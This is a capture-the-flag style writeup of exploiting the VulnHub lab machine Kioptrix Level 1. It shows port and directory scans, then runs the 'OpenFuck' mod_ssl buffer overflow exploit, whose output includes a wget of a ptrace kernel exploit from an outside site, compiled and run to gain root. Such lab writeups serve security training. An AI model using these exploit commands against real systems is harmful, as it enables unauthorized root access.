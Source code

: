 ```yaml
---
layout: posts
title:  "Kioptrix Level 1 Writeup"
date:   2019-04-09 15:44:02 +0530
author: Kyle Simmons
categories: [vulnhub, vulnerable-machine]
---
```

Kioptrix level 1 is an easy vulnerable machine on vulnhub.

[Kioptrix Level 1 download page]
<br>
<h2>1. Enumeration</h2>
The port scan below reveals several open ports including SSH, HTTP, RPC, Samba and 443.

{% highlight shell_session %}
nmap -T4 -sV -A -oN nmapscan.txt 192.168.0.66
Nmap scan report for 192.168.0.66
Host is up (0.0054s latency).
Not shown: 994 closed ports
PORT     STATE SERVICE     VERSION
22/tcp   open  ssh         OpenSSH 2.9p2 (protocol 1.99)
| ssh-hostkey:
|   1024 b8:74:6c:db:fd:8b:e6:66:e9:2a:2b:df:5e:6f:64:86 (RSA1)
|   1024 8f:8e:5b:81:ed:21:ab:c1:80:e1:57:a3:3c:85:c4:71 (DSA)
|_  1024 ed:4e:a9:4a:06:14:ff:15:14:ce:da:3a:80:db:e2:81 (RSA)
|_sshv1: Server supports SSHv1
80/tcp   open  http        Apache httpd 1.3.20 ((Unix)  (Red-Hat/Linux) mod_ssl/2.8.4 OpenSSL/0.9.6b)
| http-methods:
|_  Potentially risky methods: TRACE
|_http-server-header: Apache/1.3.20 (Unix)  (Red-Hat/Linux) mod_ssl/2.8.4 OpenSSL/0.9.6b
|_http-title: Test Page for the Apache Web Server on Red Hat Linux
111/tcp  open  rpcbind     2 (RPC #100000)
| rpcinfo:
|   program version   port/proto  service
|   100000  2            111/tcp  rpcbind
|   100000  2            111/udp  rpcbind
|   100024  1           1024/tcp  status
|_  100024  1           1024/udp  status
139/tcp  open  netbios-ssn Samba smbd (workgroup: MMYGROUP)
443/tcp  open  ssl/https   Apache/1.3.20 (Unix)  (Red-Hat/Linux) mod_ssl/2.8.4 OpenSSL/0.9.6b
|_http-server-header: Apache/1.3.20 (Unix)  (Red-Hat/Linux) mod_ssl/2.8.4 OpenSSL/0.9.6b
|_http-title: 400 Bad Request
|_ssl-date: 2019-03-28T23:46:31+00:00; +1h01m49s from scanner time.
| sslv2:
|   SSLv2 supported
|   ciphers:
|     SSL2_RC2_128_CBC_WITH_MD5
|     SSL2_RC4_128_WITH_MD5
|     SSL2_RC4_128_EXPORT40_WITH_MD5
|     SSL2_RC4_64_WITH_MD5
|     SSL2_DES_64_CBC_WITH_MD5
|     SSL2_DES_192_EDE3_CBC_WITH_MD5
|_    SSL2_RC2_128_CBC_EXPORT40_WITH_MD5
1024/tcp open  status      1 (RPC #100024)
Host script results:
|_clock-skew: mean: 1h01m48s, deviation: 0s, median: 1h01m48s
|_nbstat: NetBIOS name: KIOPTRIX, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
|_smb2-time: Protocol negotiation failed (SMB2)
{% endhighlight %}<br>

<h3>1.1 OpenSSH port 22</h3>
Using <font color="red">searchsploit</font>, there appears to be no known vulnerabilities in the exploit database for OpenSSH.
<br>
<br>
<h3>1.2 HTTP port 80</h3>
Running <font color="red">dirb</font> reveals several interesting files including:

{% highlight shell_session %}
-----------------
DIRB v2.22
By The Dark Raver
-----------------

OUTPUT_FILE: dirbresults.txt
URL_BASE: http://192.168.0.66/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt

-----------------

GENERATED WORDS: 4612

---- Scanning URL: http://192.168.0.66/ ----
+ http://192.168.0.66/~operator (CODE:403|SIZE:273)
+ http://192.168.0.66/~root (CODE:403|SIZE:269)
+ http://192.168.0.66/cgi-bin/ (CODE:403|SIZE:272)
+ http://192.168.0.66/index.html (CODE:200|SIZE:2890)
==> DIRECTORY: http://192.168.0.66/manual/
==> DIRECTORY: http://192.168.0.66/mrtg/
==> DIRECTORY: http://192.168.0.66/usage/

---- Entering directory: http://192.168.0.66/manual/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.
    (Use mode '-w' if you want to scan it anyway)

---- Entering directory: http://192.168.0.66/mrtg/ ----
+ http://192.168.0.66/mrtg/index.html (CODE:200|SIZE:17318)

---- Entering directory: http://192.168.0.66/usage/ ----
+ http://192.168.0.66/usage/index.html (CODE:200|SIZE:3704)

-----------------
DOWNLOADED: 13836 - FOUND: 6
{% endhighlight %}
<br>
The only files that appear to be out of place are `~operator` and `~root`. However, these files appear have
a CODE:403 and cannot be accessed so this is a dead end.

<h3>Port 80 is running:</h3>
-Apache 1.3.20 (Not vulnerable)<br>
-Red-Hat/Linux <br>
-mod_ssl/2.8.4 OpenSSL/0.9.6b<br><br>

Using <font color="red">searchsploit</font> to search for these services, <font color="red">mod_ssl/2.8.4</font>
appears to be Vulnerable to a remote buffer overflow exploit.
<br><br>
<h2>2. Exploitation</h2>
Exploiting the <font color="red">mod_ssl/2.8.4</font> vulnerability:<br>
The exploit, remote buffer overflow named 'OpenFuck' and 'OpenFuckv2' appears
to be out date. However, i found a patched version of the exploit on Github linked below:<br>
[Fixed alternative version of 'OpenFuck' Github]
<br><br>
Executing the exploit:
<br>
The parameters are passed (version: 0x6b, IP address: 192.168.0.66 and open N connections: -c 50) <br>
{% highlight shell_session %}
./OpenFuckExploit 0x6b 192.168.0.66 -c 50

*******************************************************************
* OpenFuck v3.0.32-root priv8 by SPABAM based on openssl-too-open *
*******************************************************************
* by SPABAM    with code of Spabam - LSD-pl - SolarEclipse - CORE *
* #hackarena  irc.brasnet.org                                     *
* TNX Xanthic USG #SilverLords #BloodBR #isotk #highsecure #uname *
* #ION #delirium #nitr0x #coder #root #endiabrad0s #NHC #TechTeam *
* #pinchadoresweb HiTechHate DigitalWrapperz P()W GAT ButtP!rateZ *
*******************************************************************

Connection... 50 of 50
Establishing SSL connection
cipher: 0x4043808c   ciphers: 0x80f8050
Ready to send shellcode
Spawning shell...
bash: no job control in this shell
bash-2.05$
exploits/ptrace-kmod.c; gcc -o p ptrace-kmod.c; rm ptrace-kmod.c; ./p; net/0304-
--11:16:09--  http://dl.packetstormsecurity.net/0304-exploits/ptrace-kmod.c
           => `ptrace-kmod.c'
Connecting to dl.packetstormsecurity.net:80... connected!
HTTP request sent, awaiting response... 301 Moved Permanently
Location: https://dl.packetstormsecurity.net/0304-exploits/ptrace-kmod.c [following]
--11:16:10--  https://dl.packetstormsecurity.net/0304-exploits/ptrace-kmod.c
           => `ptrace-kmod.c'
Connecting to dl.packetstormsecurity.net:443... connected!
HTTP request sent, awaiting response... 200 OK
Length: 3,921 [text/x-csrc]

    0K ...                                                   100% @   1.87 MB/s

11:16:10 (1.25 MB/s) - `ptrace-kmod.c' saved [3921/3921]

[+] Attached to 7066
[+] Waiting for signal
[+] Signal caught
[+] Shellcode placed at 0x4001189d
[+] Now wait for suid shell...
id
uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel)
whoami
root
{% endhighlight %}<br>
<h2>3. Root access gained!</h2>
The <font color="red">uid</font> and <font color="red">whoami</font> command shows root access to the system using the OpenFuck exploit.



[Kioptrix Level 1 download page]: https://www.vulnhub.com/entry/kioptrix-level-1-1,22/
[Fixed alternative version of 'OpenFuck' Github]: https://github.com/heltonWernik/OpenLuck
